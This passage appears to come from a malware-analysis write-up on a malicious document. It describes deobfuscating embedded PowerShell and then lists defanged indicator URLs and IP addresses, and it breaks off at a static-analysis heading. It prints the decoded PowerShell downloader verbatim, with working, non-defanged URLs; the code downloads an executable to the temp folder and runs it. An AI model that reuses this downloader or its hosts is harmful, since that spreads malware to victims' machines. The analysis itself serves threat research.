 - I’ve identified five IP addresses that malware attempts to communicate with, I Will Scan Each One.
  - ![](https://firebasestorage.googleapis.com/v0/b/cv-p-2e5bb.appspot.com/o/qqq.webp?alt=media&token=9dd75f4b-1b74-4f5d-92d6-c2c88b3b6c1d)

- I’ve encountered obfuscated PowerShell code within the document. To decrypt it, I’ll utilize Cyber Chef and the Power Decoder tool
  - ![](https://firebasestorage.googleapis.com/v0/b/cv-p-2e5bb.appspot.com/o/qqqq.webp?alt=media&token=7438db75-dbb5-4c26-ae02-77ebd293101a)
  - ![](https://firebasestorage.googleapis.com/v0/b/cv-p-2e5bb.appspot.com/o/qqqqq.webp?alt=media&token=ed44aed2-e346-4581-97f8-a9e976960d2a)
  
```powershell 
$wscript = new-object -ComObject WScript.Shell;$webclient = new-object System.Net.WebClient;$random = new-object random;$urls = 'http://focalaudiodesign.com/hl/,http://furstens.se/sdxCegqHa/,http://firstreport.com/vsIFKF/,http://sarahbradley.com/WVfJHSF/,http://belongings.com/lQelF/'.Split(',');$name = $random.next(1, 65536);$path = $env:temp + '\' + $name + '.exe';foreach($url in $urls){try{$webclient.DownloadFile($url.ToString(), $path);Start-Process $path;break;}catch{write-host $_.Exception.Message;}}
```


```yaml
hxxp[://]focalaudiodesign[.]com/hl/
hxxp[://]furstens[.]se/sdxCegqHa/
hxxp[://]firstreport[.]com/vsIFKF/
hxxp[://]sarahbradley[.]com/WVfJHSF/
hxxp[://]belongings[.]com/lQelF/
hxxp[://]www[.]sarahbradley[.]com/WVfJHSF/
hxxps[://]www[.]firstreport[.]com/vsIFKF/
173[.]254[.]14[.]237
66[.]147[.]242[.]93
107[.]154[.]147[.]22
45[.]60[.]97[.]22
89[.]221[.]250[.]20
96[.]45[.]82[.]126
96[.]45[.]83[.]51
96[.]45[.]83[.]150
96[.]45[.]82[.]249
192[.]155[.]244[.]20
216[.]117[.]140[.]21
213[.]146[.]173[.]149
213[.]146[.]173[.]150
64[.]41[.]86[.]47
208[.]91[.]197[.]27
64[.]41[.]87[.]41
64[.]41[.]94[.]112
64[.]26[.]26[.]113
64[.]41[.]86[.]47al
208[.]91[.]197[.]27
64[.]41[.]87[.]41
64[.]41[.]94[.]112
64[.]26[.]26[.]113
207[.]204[.]50[.]27 
```
---
## Basic Static Analysis
